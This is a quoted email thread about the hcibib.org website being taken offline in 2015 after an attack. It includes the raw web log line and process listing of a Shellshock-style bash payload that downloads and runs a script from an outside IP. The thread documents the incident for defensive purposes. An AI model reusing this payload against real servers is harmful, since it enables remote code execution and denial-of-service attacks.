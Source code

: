 >>>>
>>>> Ishelpdesk, please proceed with getting an account setup for Gary, and setting it up to support the hcibib.org website.
>>>>
>>>> Thanks
>>>> Adam
>>>>
>>>> -----Original Message-----
>>>> From: Gary PERLMAN [mailto:perlman@turing.acm.org]
>>>> Sent: Friday, May 08, 2015 6:50 PM
>>>> To: Adam Greenberg
>>>> Cc: Ken Bauer; ishelpdesk
>>>> Subject: Re: hcibib.org website problem
>>>>
>>>> Well, I am stumped. I don't know what script was used for the attack, and if I did, I am not sure how I would prevent further attacks.
>>>>
>>>> Gary Perlman, Director, HCI Bibliography Project
>>>> mailto:director@hcibib.org  http://hcibib.org/
>>>>
>>>> On Wed, 6 May 2015, Adam Greenberg wrote:
>>>>
>>>>> Hello Gary,
>>>>> I had to take the hcibib.org website offline tonight.   The site was used to execute a denial of service attack that took down the server.
>>>>> Here is the reference from the hcibib.org weblogs
>>>>>
>>>>> 62.75.145.250 - - [06/May/2015:12:12:39 -0400] "GET / HTTP/1.1" 200 10740 "-" "() { :; }; /bin/bash -c 'rm -rf /tmp/dd.sh /tmp/dd1.sh;wget http://62.75.145.250/dd.sh -O /tmp/dd.sh;curl http://62.75.145.250/dd.sh -o /tmp/dd1.sh;sh /tmp/dd.sh & sh /tmp/dd1.sh 0>&1'"
>>>>>
>>>>> I put the entire weblog for today to your /home/Perlman
>>>>>
>>>>> The request executed a denial of service attack that started this.
>>>>> apache   28593     1  0 12:12 ?        00:00:00 /bin/bash -c rm -rf /tmp/dd.sh /tmp/dd1.sh;wget http://62.75.145.250/dd.sh -O /tmp/dd.sh;curl http://62.75.145.250/dd.sh -o /tmp/dd1.sh;sh /tmp/dd.sh & sh /tmp/dd1.sh 0>&1
>>>>>
>>>>> Attached is a sample of what was running on the server.
>>>>>
>>>>> I have changed the default document root of the website until I hear from you.  I would prefer to bring the site back online restricted to the IP address that you will be connecting from so that you have time to properly examine you site and then we can open it back up.  Please let me know the IP address you will be connecting from and I will make the appropriate configuration changes.
>>>>>
>>>>> Thanks
>>>>> Adam
>>>>>
>>>>>
>>>>> Adam Greenberg
>>>>> Senior Systems Analyst
>>>>> Association for Computing Machinery
>>>>> 2 Penn Plaza
>>>>> Suite 701
>>>>> New York, NY 10121
>>>>> Office: 212-626-0573
>>>>> greenberg@acm.org
>>>>>
>>>>>
>>>>
>>>>
>>>
>>>
>>